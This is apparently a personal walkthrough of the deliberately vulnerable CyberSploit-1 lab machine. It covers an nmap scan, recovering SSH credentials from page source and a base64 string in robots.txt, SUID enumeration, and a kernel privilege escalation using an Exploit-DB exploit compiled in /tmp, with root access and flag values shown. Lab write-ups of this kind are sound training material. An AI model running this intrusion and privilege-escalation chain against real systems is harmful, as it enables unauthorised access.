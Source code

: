 ```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```


## **Description ⤵️**


💡 [CyberSploit-1](https://vulnhub.com/entry/cybersploit-1,506/)

THIS IS A MACHINE FOR COMPLETE BEGINNER , THERE ARE THREE FALGS AVAILABLE IN THIS VM.

FROM THIS VMs YOU WILL LEARN ABOUT ENCODER-DECODER & EXPLOIT-DB.



### Let’s find the IP Address first >>

```bash
IP : 192.168.195.92
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CyberSploit]
└─$ sudo nmap -sC -sV -T4 -oN Nmap_results.txt 192.168.195.92 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-28 20:36 IST
Nmap scan report for 192.168.195.92
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 01:1b:c8:fe:18:71:28:60:84:6a:9f:30:35:11:66:3d (DSA)
|   2048 d9:53:14:a3:7f:99:51:40:3f:49:ef:ef:7f:8b:35:de (RSA)
|_  256 ef:43:5b:d0:c0:eb:ee:3e:76:61:5c:6d:ce:15:fe:7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/CyberSploit-1/Untitled.png)

After checking the source code I got this →

![Untitled](/Vulnhub-Files/img/CyberSploit-1/Untitled%201.png)

```bash
username:itsskv
```

Now lets check robots.txt file →

![Untitled](/Vulnhub-Files/img/CyberSploit-1/Untitled%202.png)

Now after decoding this base64 encoding I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CyberSploit]
└─$ echo "Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0=" | base64 -d
cybersploit{youtube.com/c/cybersploit}
```

Now lets use this ⬆️ above string to use as a password for ssh login So, lets give it a try at least →

## SHELL ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/CyberSploit]
└─$ ssh itsskv@192.168.195.92                    
The authenticity of host '192.168.195.92 (192.168.195.92)' can't be established.
ECDSA key fingerprint is SHA256:19IzxsJJ/ZH00ix+vmS6+HQqDcXtk9k30aT3K643kSs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.195.92' (ECDSA) to the list of known hosts.
itsskv@192.168.195.92's password: 
Welcome to Ubuntu 12.04.5 LTS (GNU/Linux 3.13.0-32-generic i686)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.6 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Your Hardware Enablement Stack (HWE) is supported until April 2017.

itsskv@cybersploit-CTF:~$
```

Now when I am inside the shell lets try different things to get to root →

```bash
itsskv@cybersploit-CTF:~$ cat local.txt 
d19dff81aa1a2e22550afd3b583ea580
itsskv@cybersploit-CTF:~$
itsskv@cybersploit-CTF:~$ cat flag2.txt 
Your flag is in another file...
itsskv@cybersploit-CTF:~$
```

Lets check the SUIDs and GUIDs files →

```bash
itsskv@cybersploit-CTF:/$ find / -perm -u=s -type f 2>/dev/null
/bin/fusermount
/bin/ping
/bin/su
/bin/umount
/bin/mount
/bin/ping6
/usr/bin/newgrp
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/arping
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/mtr
/usr/bin/lppasswd
/usr/bin/traceroute6.iputils
/usr/bin/pkexec
/usr/bin/at
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/pt_chown
itsskv@cybersploit-CTF:/$ find / -perm -g=s -type f 2>/dev/null
/sbin/unix_chkpwd
/usr/bin/mlocate
/usr/bin/X
/usr/bin/crontab
/usr/bin/chage
/usr/bin/dotlockfile
/usr/bin/bsd-write
/usr/bin/ssh-agent
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/mail-touchlock
/usr/bin/expiry
/usr/bin/at
/usr/bin/wall
/usr/sbin/uuidd
/usr/games/gnomine
/usr/games/mahjongg
/usr/lib/libvte-2.90-9/gnome-pty-helper
/usr/lib/utempter/utempter
/usr/lib/evolution/camel-lock-helper-1.2
itsskv@cybersploit-CTF:/$
```

Now after checking so many things lets look for Kernel Exploitation →

```bash
itsskv@cybersploit-CTF:/home/cybersploit$ uname -a
Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 athlon i386 GNU/Linux
itsskv@cybersploit-CTF:/home/cybersploit$
```

After reconing online I got an exploit → [https://www.exploit-db.com/raw/37292](https://www.exploit-db.com/raw/37292)

Lets try it out now →

```bash
itsskv@cybersploit-CTF:/tmp$ nano explit.c
itsskv@cybersploit-CTF:/tmp$ chmod +x explit.c
itsskv@cybersploit-CTF:/tmp$ gcc explit.c -o shell
itsskv@cybersploit-CTF:/tmp$ ./shell
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# /bin/bash -i
root@cybersploit-CTF:/tmp# whoami
root
root@cybersploit-CTF:/tmp# id
uid=0(root) gid=0(root) groups=0(root),1001(itsskv)
root@cybersploit-CTF:/tmp# cd /root
root@cybersploit-CTF:/root# ls -al
total 136
drwx------ 20 root root  4096 Jun 28 20:24 .
drwxr-xr-x 23 root root  4096 Sep 22  2020 ..
-rw-------  1 root root  3540 Sep 23  2020 .ICEauthority
-rw-------  1 root root     0 Sep 23  2020 .Xauthority
-rw-------  1 root root     0 Sep 23  2020 .bash_history
-rw-r--r--  1 root root  3106 Apr 19  2012 .bashrc
drwx------ 13 root root  4096 Sep  3  2020 .cache
drwx------  9 root root  4096 Sep  3  2020 .config
drwx------  3 root root  4096 Jun 27  2020 .dbus
-rw-r--r--  1 root root    25 Sep 23  2020 .dmrc
drwx------  3 root root  4096 Sep 23  2020 .gconf
drwx------  4 root root  4096 Sep  3  2020 .gnome2
-rw-r--r--  1 root root   107 Sep 23  2020 .gtk-bookmarks
drwx------  2 root root  4096 Sep  3  2020 .gvfs
drwxr-xr-x  3 root root  4096 Sep  4  2020 .local
drwx------  3 root root  4096 Sep  3  2020 .mission-control
drwx------  4 root root  4096 Sep  3  2020 .mozilla
-rw-r--r--  1 root root   140 Apr 19  2012 .profile
drwx------  2 root root  4096 Sep 23  2020 .pulse
-rw-------  1 root root   256 Jun 25  2020 .pulse-cookie
-rw-------  1 root root 11459 Sep 23  2020 .xsession-errors
-rw-------  1 root root 11011 Sep 22  2020 .xsession-errors.old
drwxr-xr-x  2 root root  4096 Sep  3  2020 Desktop
drwxr-xr-x  2 root root  4096 Sep  3  2020 Documents
drwxr-xr-x  2 root root  4096 Sep  3  2020 Downloads
drwxr-xr-x  2 root root  4096 Sep  3  2020 Music
drwxr-xr-x  2 root root  4096 Sep  3  2020 Pictures
drwxr-xr-x  2 root root  4096 Sep  3  2020 Public
drwxr-xr-x  2 root root  4096 Sep  3  2020 Templates
drwxr-xr-x  2 root root  4096 Sep  3  2020 Videos
-rw-r--r--  1 root root    32 Sep  4  2020 finalflag.txt
-rw-r--r--  1 root root    33 Jun 28 20:24 proof.txt
root@cybersploit-CTF:/root# cat finalflag.txt 
Your flag is in another file...
root@cybersploit-CTF:/root# cat proof.txt 
59595564ca25b9405d338daab9170f4c
root@cybersploit-CTF:/root# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
3: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:50:56:ba:1f:90 brd ff:ff:ff:ff:ff:ff
    inet 192.168.195.92/24 brd 192.168.195.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feba:1f90/64 scope link 
       valid_lft forever preferred_lft forever
root@cybersploit-CTF:/root#
```

---
